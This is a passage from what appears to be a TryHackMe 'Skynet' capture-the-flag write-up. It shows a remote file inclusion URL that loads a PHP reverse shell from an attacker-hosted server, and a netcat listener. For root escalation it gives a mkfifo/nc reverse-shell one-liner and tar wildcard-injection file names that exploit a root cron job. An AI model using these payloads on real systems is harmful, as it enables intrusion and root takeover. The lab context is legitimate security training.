 The `user.txt` file reads: `7ce5c2109a40f958099283600a9ae807`

### 1.5

Inspecting the `milesdyson` home directory shows a `backups` folder, which contains a shell script named `backup.sh` that is owned by root. It is also readable and executable by everyone. This could be used to gain access to the server as root

This is the contents of the shell script:

`#!/bin/bash cd /var/www/html tar cf /home/milesdyson/backups/backup.tgz * `

This script will make a tar backup of the entire `/var/www/html` directory and save it to `home/milesdyson/backups/backup.tgz`

Next step is to gain access to the machine. For this I will use the PentestMonkey PHP reverse shell script.

Next is to set up a netcat listener: `nc -lvnp 4321`

I will also setup a HTTP server to host the PHP shell script:
`python3 -m http.server`

Then to execute the payload: 

```
http://10.10.97.28/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.86.182:8000/shell.php
```

![alt text](./images/skynet/img_12.png)

Now that a shell has been opened, next is to check different files. One file is the `/etc/crontab` file, which shows that the `backup.sh` file executes every minute

After looking for ways to exploit the problem, I ultimately looked at the write up from TryHackMe, and the vulnberability lies in the wildcards and checkpoint actions for a directory

Here is the payload that can be used to gain root access:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.86.182 1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

Firstly, I will go to the `/var/www/html` folder, and then I will execute the payloads
